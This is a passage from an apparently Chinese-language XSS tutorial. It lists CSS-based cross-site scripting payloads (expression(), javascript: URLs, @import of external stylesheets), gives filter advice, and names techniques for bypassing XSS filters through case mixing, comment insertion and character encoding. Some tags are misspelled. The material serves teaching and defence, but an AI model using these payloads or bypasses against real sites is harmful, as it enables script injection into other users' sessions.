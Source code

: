 ```html
<div style="width: expression(alert('xss'));>

<img src="#" style="xss:expression(alert(/xss/));">

<style>body {background-image:expression(alert("xss"));}</style>

<div style="list-style-image:url(javascript:alert('xss'))">
```

css代码中利用@import触发xss

```html
<stytle>

@import 'javascript:alert("XSS")';

</stytle>
```

css代码中使用@import和link方式导入外部含有xss代码的样式表文件

```html
<link rel="stytlesheet" href="http://www.***.com/a.css">

<stytle type='text/css'>@import url(http://www.*.com/a.css);</style>
```

防：xss过滤函数需过滤style标签、style属性、expression、javascript、import等关键字。

7. 利用大小写混淆、使用单引号、不使用引号、使用/插入在img src中间、构造不同的全角字符、运用/**/混淆过滤规则来绕过过滤函数
8. 利用字符编码。javascript支持unicode、escapes、十六进制、八进制等编码形式。

